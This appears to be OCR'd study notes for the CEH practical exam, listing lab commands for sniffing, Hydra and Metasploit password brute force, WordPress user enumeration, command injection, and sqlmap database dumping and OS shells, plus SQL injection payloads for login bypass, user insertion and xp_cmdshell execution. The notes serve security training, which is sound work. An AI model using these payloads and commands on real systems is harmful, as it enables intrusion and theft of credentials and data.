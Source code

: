 **Module 08 : Sniffing** 

- http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request  
- Capture traffic from remote interface via wireshark 
- Capture > Options > Manage Interfaces  
- Remote Interface > Add > Host & Port (2002) 
- Username & password > Start 

**Module 13 : Hacking Web Servers** 

- FTP Bruteforce with Hydra 
- hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

**Module 14 : Hacking Web Applications** 

- Wordpress 
  - wpscan --url http://10.10.10.12:8080/CEH --enumerate u 
- WP password bruteforce 
  - msfconsole 
  - use auxiliary/scanner/http/wordpress\_login\_enum 
- RCE  
- ping 127.0.0.1 | hostname | net user 

**Module 15 : SQL Injection** 

- SQLMAP Extract DBS 
- sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” -- cookie="xookies xxx" --dbs
- Extract Tables 
- sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” -- cookie="cookies xxx" -D moviescope --tables
- Extract Columns 
- sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” -- cookie="cookies xxx" -D moviescope -T User\_Login --columns
- Dump Data 
- sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” -- cookie="cookies xxx" -D moviescope -T User\_Login --dump
- OS Shell to execute commands 
- sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” -- cookie="cookies xxx" --os-shell
- Login bypass 
- blah' or 1=1 --
- Insert data into DB from login 
- blah';insert into login values ('john','apple123');
- Create database from login 
- blah';create database mydatabase;
- Execute cmd from login 
- blah';exec master..xp\_cmdshell 'ping www.moviescope.com -l 65000 -t'; --

**Module 19 : Cloud Computing** 

- owncloud 
- **CEH PRACTICAL NOTES**                                           –Pratik Karan
- @https://www.linkedin.com/in/pratik-karan-310b06214/
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Footprinting and Reconnaissance
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
